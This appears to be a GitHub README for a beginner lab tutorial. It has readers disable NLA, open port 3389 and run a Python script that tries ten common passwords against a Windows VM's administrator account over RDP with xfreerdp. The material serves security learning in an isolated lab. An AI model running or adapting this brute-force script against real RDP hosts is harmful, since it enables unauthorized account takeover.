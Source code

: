 # 🛡️ RDP Brute-Force Attack Tool

This is a Python-based brute-force script designed for **ethical hacking** and **cybersecurity learning** in a **controlled lab environment**. It targets a Windows VM with Remote Desktop Protocol (RDP) enabled and tests a list of passwords to identify weak credentials.

> ⚠️ **Disclaimer:** This tool is for educational and authorized penetration testing purposes **only**. Misuse is illegal.

---

## 🧰 Features

- Python script using `xfreerdp`
- Tests 10 common passwords from a built-in wordlist
- Simple, beginner-friendly code
- Intended for virtual lab environments only

---

## 🖥️ Lab Setup Instructions

### Step 1: Setup Network in VirtualBox

- Use **Host-Only Adapter** (or Internal Network) for both VMs:
  - Go to: *VirtualBox → Settings → Network*
  - Set `Adapter 1` → `Enable Network Adapter`
  - Attached to: **Host-Only Adapter**
  - Adapter Type: `Intel PRO/1000 MT Desktop`

Repeat the same for **Windows VM**.

### Step 2: Get IP Addresses

- **Kali Linux:**  
  Run `ip a` or `ifconfig`  
  Look for something like: `192.168.56.**`

- **Windows VM:**  
  Run `cmd` → `ipconfig`  
  Find: `IPv4 Address: 192.168.56.**`

---

## ⚙️ Windows RDP Configuration

### Step 3: Enable RDP

- Run: `SystemPropertiesRemote`
- Check: ✅ Allow remote connections
- Uncheck: ❌ “Allow connections only from computers with NLA”

## 📸RDP Enabled
![Enable RDP on Windows Machine](https://github.com/user-attachments/assets/104ea17b-0ae3-4abe-a263-2532d0c3d89b)


### Step 4: Allow RDP Through Firewall

Run the following command as **Administrator** in CMD:

```bash
netsh advfirewall firewall add rule name="Allow RDP" dir=in action=allow protocol=TCP localport=3389
```
### Step 5: Test RDP Connection from Kali
```bash
xfreerdp /v:<your windows machine ip> /u:Admin /p:12345 /cert:ignore
```
✅ If you see the desktop or authentication prompt, it works.

## 🐍 Running the Python Script
### Step 5: Install FreeRDP on Kali
```bash
sudo apt update
sudo apt install freerdp2-x1
```

### Step 6: Write the Brute-Force Script
Create the file:
```bash
nano rdp_brute.py
```
## Paste the code:
```bash
import subprocess

target_ip = "192.168.56.**"  # Change to your Windows VM IP
username = "administrator"    # Change to your Windows user

passwords = [
    "123456", "admin", "administrator", "password",    
    "admin123", "test123", "welcome", "qwerty", "1234", "56789"
]

print(f"[*] Starting brute-force on {target_ip} with username '{username}'...\n")

for attempt, password in enumerate(passwords, 1):
    print(f"[{attempt}/10] Trying password: {password}")
    try:
        result = subprocess.run(
            ["xfreerdp", f"/v:{target_ip}", f"/u:{username}", f"/p:{password}", "/cert:ignore"],
            capture_output=True, text=True, timeout=10
        )

        if "Authentication only, exit status 0" in result.stderr or result.returncode == 0:
            print(f"\n[+] SUCCESS! Password found: {password}")
            break
        else:
            print("[-] Failed.")
    except subprocess.TimeoutExpired:
        print("[!] Timeout, skipping...")
    except Exception as e:
        print(f"[!] Error: {e}")
else:
    print("\n[-] Tried all 10 passwords. No match found.")

```
Save and exit:
**Press Ctrl + O, then Enter**
**Press Ctrl + X to exit nano**

### Step 7: Run the Script

```bash
python3 rdp_brute.py
```
You’ll see it try each password and print either "Success" or "Failed"

## 📸 Successful Login
![brute_force_success](https://github.com/user-attachments/assets/ae66d164-0ae5-42ae-b071-1de4814a21c5)




